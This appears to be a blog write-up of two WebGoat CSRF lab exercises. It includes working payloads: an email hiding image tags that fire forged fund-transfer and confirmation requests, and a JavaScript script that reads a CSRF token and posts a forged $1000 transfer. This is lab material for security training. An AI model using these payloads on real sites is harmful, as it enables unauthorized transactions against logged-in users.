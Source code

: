 ```yaml
---
layout: post
title:  "OWASP BWA WebGoat Challenge Part 9 Continued (Continued)"
date:   2017-01-26 20:00:00 -0500
categories: webgoat
---
```

# CSRF Prompt Bypass
Instructions:

- Similar to the CSRF Lesson, your goal is to send an email to a newsgroup that contains multiple malicious requests: the first to transfer funds, and the second a request to confirm the prompt that the first request triggered. The URL should point to the CSRF lesson with an extra parameter "transferFunds=4000", and "transferFunds=CONFIRM". You can copy the shortcut from the left hand menu by right clicking on the left hand menu and choosing copy shortcut. Whoever receives this email and happens to be authenticated at that time will have his funds transferred. When you think the attack is successful, refresh the page and you will find the green check on the left hand side menu.

Okay, these requests both access the same resource so it's not possible to concantenate them into a single request. Let's try to make an email that contains two hidden request images:

```
Hey everyone,

This is a totally legit email, and most definitely about a topic you care deeply for.
Just thought I would let you know that we are still interested in it as well.
Thanks!

-HackerAttacker@7proxies.net
<img src=http://192.168.56.101//WebGoat/attack?Screen=45&menu=900&transferFunds=4000 alt="" style="width:1;height:1;">
<img src=http://192.168.56.101//WebGoat/attack?Screen=45&menu=900&transferFunds=CONFIRM alt="" style="width:1;height:1;">
```

We submit it:

<img src="{{ site.baseurl }}/images/2017-01-26-webgoat_part_9_continued_continued/group-message.jpg">

And when someone clicks it, we transfer funds and bypass the prompt confirmation that would require user interaction!

# CSRF Token Bypass
Instructions:

- Similar to the CSRF Lesson, your goal is to send an email to a newsgroup that contains a malicious request to transfer funds. To successfully complete you need to obtain a valid request token. The page that presents the transfer funds form contains a valid request token. The URL for the transfer funds page is the same as this lesson with an extra parameter "transferFunds=main". Load this page, read the token and append the token in a forged request to transferFunds.

Okay, so what is a request token? Let's send a request to ```transferFunds=main``` and see if we can see what this token is.

```
GET http://192.168.56.101/WebGoat/attack?Screen=2&menu=900%transferFunds=main HTTP/1.1
```

In the response, we see the value:

```
<input name='CSRFToken' type='hidden' value='541224727'>
```

Which is hidden in the transfer page:

<img src="{{ site.baseurl }}/images/2017-01-26-webgoat_part_9_continued_continued/transfer-page.jpg">

When we try to send a transfer request for $1000, the following request is generated:

```
192.168.56.101/WebGoat/attack?Screen=2&menu=900transferFunds=1000&CSRFToken=541224727
```

After sending a few requests, it becomes clear that ```CSRFToken``` is a dynamic field. Alright, so we need to pull the value of the token on each request, and format that value into a CSRF attack on the user utilizing the ```transferFunds``` function. This would be likely true for any multi-user attack even if the fields were static, as we want to target all of the users with the same XSS/CSRF injection. So let's write up a payload:

```
<script>
function transferFunds(token) {
	xmlHTTP = new XMLHttpRequest();
	var transferURL= "attack?Screen=2&menu=900&transferFunds=1000&CSRFToken=" + token;
	xmlHTTP.open("POST", transferURL, false);
	xmlHTTP.send();

	alert("$1000 transferred from " + token)
}
function tokenGrabCSRF() {
	var xmlHTTP = new XMLHttpRequest();
	var tokenURL = "attack?Screen=2&menu=900&transferFunds=main";
	xmlHTTP.open("GET", tokenURL, true);
	xmlHTTP.responseType="document";
	xmlHTTP.onreadystatechange = function () {
		if(xmlHTTP.readyState == 4 && xmlHTTP.status == 200) {
			var tokenResponse = xmlHTTP.response;
			var tokenHits = tokenResponse.getElementsByName("CSRFToken");
			var token = (tokenHits[0].value);
			// now we attack
			transferFunds(token);
		}
	}
	xmlHTTP.send();
}
tokenGrabCSRF()
</script>
```

So I had to do a little more research on XMLHttpRequests and asynchronous vs. sychronous use of the ```open()``` function. It seems that most browsers don't want you to be using blocking html requests on the main thread, and that is especially true of any malicious code, as we don't want to alert the user to any weird unexplainable behavior in the site. So by using the ```onreadystatechange``` callback we are able to create our asynchronous attack.

The attack starts with the ```tokenGrabCSRF``` call. A request is generated and sent, asynchronously, to the webserver requesting the main transfer page. One important step is changing the value of ```XMLHttpRequest.responseType``` to "document". I was trying to perform this attack for a while by using the ```XMLHttpRequest.responseText``` field from the generic response, and found that the value was truncated to 9995 bytes, which only covered around half of the full response data. This was especially an issue, as the value of ```CSRFToken``` is embedded at the very end of the HTML, so I couldn't regex the value out of the text. By switching the ```responseType``` to "document" we are able to use DOM accession methods to pull the value of the token out of the response, and it doesn't seem to have the same data length restrictions as ```XMLHttpRequest.responseText```.

So continuing...When the state of the request changes ```onreadystatechange``` is triggered, our callback fires off. The callback checks to make sure that the response is a proper response to our request, and then accesses the value stored at the DOM element named```CSRFToken```. Another important note is that the ```document.getElementsByName``` function returns a list regardless of how many hits are in the document. Assumming (luckily correctly) that there was just one element with the token name, we pull the first element from the list and send its value to malicous function 2: ```transferFunds()```

```transferFunds``` is more straightforward. We just make a request to the transfer URL with our requested amount and our newly acquired ```CSRFToken``` value and our attack is complete! This was done synchronously simply because we don't care or need the response or to parse any data from it, so there is no possibility of blocking.

Now that we have completed our payload, we can inject it into an innocent looking email and send it out to our mailing list:

<img src="{{ site.baseurl }}/images/2017-01-26-webgoat_part_9_continued_continued/transfer-email.jpg">

And when we click it, the funds are transfered using the stolen token!

<img src="{{ site.baseurl }}/images/2017-01-26-webgoat_part_9_continued_continued/transfer-success.jpg">

So CSRF can be utilized in XSS attacks to leverage the authentication levels of compromised users to perform unwanted actions on the authenticated application.

All your links are belong to us.